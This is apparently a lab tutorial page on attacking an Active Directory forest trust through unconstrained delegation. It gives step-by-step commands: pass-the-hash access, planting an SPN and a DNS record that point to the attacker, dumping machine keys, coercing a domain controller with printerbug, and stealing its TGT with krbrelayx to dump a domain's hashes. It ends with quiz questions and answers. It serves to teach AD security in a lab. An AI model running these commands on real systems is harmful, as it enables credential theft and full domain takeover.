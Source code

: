 #Attacking Forest Trusts

In this attack, we'll target an inter-forest trust relationship: The Forest trust between the sirius and altair domains.
An SID injection attack won't work by default on these trusts, since SID Filtering is enabled. What can work is, for example, Unconstrained Delegation Abuse.

We've tackled this attack on the Unconstrained Delegation Abuse section. This time, we'll use CHIEF as the compromised service account, and KING as the victim. DC's are both allowed for unconstrained delegation and allow their account to be delegated through delegation mechanisms in Kerberos. Also, in order for this attack to work, the forest trust must allow Kerberos tickets to be delegated, as well as being a bidirectional trust relationship. One-way forest trusts, or forest trusts that do not allow ticket delegation cannot be attacked in this manner. 

Through the use of the ldeep tool, we understand that delegation is enabled in the forest trust, due to the presence of the CROSS_ORGANIZATION_ENABLE_TGT_DELEGATION flag in the trustAttributes attribute. We can also determine that the trust is bidirectional. We can check again:
```
ldeep ldap -u skyler.white -p 'Password123' -d north.altair.local -s ldap://192.168.122.30 trusts
```

Let's then setup the Unconstrained delegation abuse scenario. First, we'll access the CHIEF machine as an Administrator (we've already compromised it on Trustpocalypse for example) through the wmiexec.py script. Then we'll create a new SPN as well as a DNS record resolving the SPN’s hostname to the attacker’s IP.
```
#remember to use the hashes from your own environment, this is just an example.
#the wmiexec.py script allows the attacker to issue commands to the target machine
wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:a87f3a337d73085c45f9416be5787d86 -no-pass ALTAIR/Administrator@chief.altair.local
#create an SPN record
powershell -Command "SetSPN -A HOST/attackingforest.altair.local CHIEF$"
#check the newly created SPN
powershell -Command "SetSPN -L CHIEF$" 
#create a DNS record for the SPN that points to the attacker's machine
powershell -Command "Add-DnsServerResourceRecordA -Name "attackingforest" -ZoneName "altair.local" -IPv4Address 192.168.122.2 -TimeToLive 01:00:00"
#check DNS record
powershell -Command "nslookup attackingforest.altair.local"
```

Now there’s an SPN associated to the CHIEF domain controller, which resolves to the attacker's machine due to the DNS record. This will be how we’ll trick the KING domain controller to send us its TGT. It is supposedly authenticating to a service pertaining to the CHIEF domain controller, thus it sends its TGT to the service (since CHIEF's configured for unconstrained delegation). Then, it will resolve the SPN through DNS, and end up sending the TGT to the attacker’s machine.

What's left for the attacker to do is to coerce KING authentication, using the printer bug, and extract KING's TGT from Kerberos messages. Once the attacker holds this TGT, the sirius domain can then be compromised, since the attacker can impersonate the KING DC.

```
#retrieve CHIEF's aes key that will be used to cipher the TGT sent by KING
#the kerberos ticket used here was retrieved in the Trustpocalypse attack. Please execute that attack first.
secretsdump.py -k -no-pass berntheman@chief.altair.local
#[+]ALTAIR\CHIEF$:aad3b435b51404eeaad3b435b51404ee:143b50cff65b459efa236693abbb4017:::
#[+]CHIEF$:aes256-cts-hmac-sha1-96:edeb40f907993b6316c58d7a723bd69035ce635dd52f22abb5892daa700df615
#now let's start krbrelayx script. We'll have to stop the DNS service in our machine, the script will need to use that port
#remember that the hash values may differ. Use your own hash values.

#in one terminal
#navigate to the krbrelayx directory
systemctl stop systemd-resolved 
#use CHIEF$:aes256-cts-hmac-sha1-96 value here
sudo -E python3 krbrelayx.py -aesKey edeb40f907993b6316c58d7a723bd69035ce635dd52f22abb5892daa700df615

#now, trigger the printer bug from a different terminal
#use CHIEF hash values here, which you can also retrieve from the secretsdump script output
python3 printerbug.py --verbose -hashes aad3b435b51404eeaad3b435b51404ee:143b50cff65b459efa236693abbb4017 altair.local/CHIEF\$@king.sirius.local attackingforest.altair.local

#in the end we can turn DNS on our machine on again
systemctl start systemd-resolved 
```

And there it is, the krbrelayx script has retrieved KING's TGT! By stealing KING’s TGT, the attacker can now impersonate the Domain Controller of the sirius domain, allowing full compromise of sirius through tools like secretsdump.

```
export KRB5CCNAME=/home/ubuntu/krbrelayx/KING\$@SIRIUS.LOCAL_krbtgt@SIRIUS.LOCAL.ccache
secretsdump.py -k -no-pass -just-dc-ntlm sirius.local/KING\$@KING.sirius.local
```

Note: The SPN has to be correctly set in the CHIEF domain controller before triggering authentication and stealing the TGT. Sometimes the SPN disappears for some reason. If you’re having trouble retrieving the ticket with krbrelayx (like NTLM being used instead of Kerberos), make sure the SPN is well set. I recommend to get familiar with the commands first, then, set the SPN through the wmiexec.py script and quicly start krbrelayx and trigger the printerbug. If you’re quick enough you can definitely get the ticket. 




!!! question
    Why can't the attacker use SID injection in this forest trust attack?
??? success "Answer"
    Because SID Filtering is enabled by default in forest trusts, extra SIDs like the Enterprise Admin SID would be stripped from the ticket, making SID injection attacks ineffective.
!!! question 
    What conditions must be met for this unconstrained delegation attack to succeed?
??? success "Answer"
    The forest trust must be bidirectional, allow Kerberos delegation across the trust, and the CROSS_ORGANIZATION_ENABLE_TGT_DELEGATION flag must be set. Also, the compromised machine (CHIEF) must have unconstrained delegation enabled, which DCs do by default, and the attacker must be able to coerce authentication from a DC in the other forest.
!!! question
    What's krbrelayx.py role in this attack?
??? success "Answer"
    krbrelayx.py listens for incoming Kerberos authentication, intercepts the TGT sent by the victim DC (KING), decrypts it using the known AES key of CHIEF, and saves it for reuse, allowing the attacker to impersonate KING and compromise the sirius domain.
!!! question
    Could the attacker, from CAPTAIN, use this attack to compromise CHIEF, instead of the SID-injection attack from Trustpocalypse section?
??? success "Answer"
    Yes, this attack could also be perpetrated from CAPTAIN to CHIEF, given that they are both DCs, thus allowing this unconstrained delegation abuse attack to happen as well. This attack could be done if for example, the trust between north and altair had SID-filtering enabled.

